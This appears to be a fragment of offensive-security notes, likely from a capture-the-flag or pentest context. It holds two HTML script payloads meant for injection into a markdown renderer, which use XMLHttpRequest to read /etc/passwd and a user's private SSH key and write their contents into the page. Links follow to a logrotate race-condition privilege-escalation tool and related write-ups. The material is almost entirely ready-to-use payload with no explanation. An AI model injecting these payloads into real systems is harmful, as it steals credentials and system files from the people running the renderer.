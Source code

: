 ```mardown
<script> x=new XMLHttpRequest; x.onload=function(){ document.write(this.responseText) }; x.open("GET","file:///etc/passwd"); x.send(); </script>
<script> x=new XMLHttpRequest; x.onload=function(){ document.write(this.responseText) }; x.open("GET","file:///home/reader/.ssh/id_rsa"); x.send(); </script>

```

```markdown

```


https://github.com/whotwagner/logrotten
https://hackerone.com/reports/578119
https://tech.feedyourhead.at/content/abusing-a-race-condition-in-logrotate-to-elevate-privileges